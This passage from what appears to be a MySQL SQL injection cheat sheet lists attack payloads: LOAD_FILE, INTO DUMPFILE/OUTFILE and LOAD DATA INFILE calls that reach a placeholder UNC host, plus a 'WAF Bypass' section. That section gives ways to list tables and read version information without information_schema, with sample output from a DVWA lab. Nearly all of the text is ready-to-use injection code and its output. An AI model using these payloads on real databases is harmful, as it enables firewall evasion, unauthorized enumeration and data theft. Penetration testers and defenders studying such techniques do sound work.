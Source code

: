 ```sql
SELECT LOAD_FILE('\\\\error\\abc');
SELECT LOAD_FILE(0x5c5c5c5c6572726f725c5c616263);
SELECT '' INTO DUMPFILE '\\\\error\\abc';
SELECT '' INTO OUTFILE '\\\\error\\abc';
LOAD DATA INFILE '\\\\error\\abc' INTO TABLE DATABASE.TABLE_NAME;
```

:warning: Don't forget to escape the '\\\\'.

## MYSQL WAF Bypass

### Alternative to Information Schema

`information_schema.tables` alternative

```sql
SELECT * FROM mysql.innodb_table_stats;
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| database_name  | table_name            | last_update         | n_rows | clustered_index_size | sum_of_other_index_sizes |
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| dvwa           | guestbook             | 2017-01-19 21:02:57 |      0 |                    1 |                        0 |
| dvwa           | users                 | 2017-01-19 21:03:07 |      5 |                    1 |                        0 |
...
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+

mysql> SHOW TABLES IN dvwa;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+
```

### Alternative to VERSION

```sql
mysql> SELECT @@innodb_version;
+------------------+
| @@innodb_version |
+------------------+
| 5.6.31           |
+------------------+

mysql> SELECT @@version;
+-------------------------+
| @@version               |
+-------------------------+
| 5.6.31-0ubuntu0.15.10.1 |
+-------------------------+

mysql> SELECT version();
+-------------------------+
| version()               |
+-------------------------+
| 5.6.31-0ubuntu0.15.10.1 |
+-------------------------+

```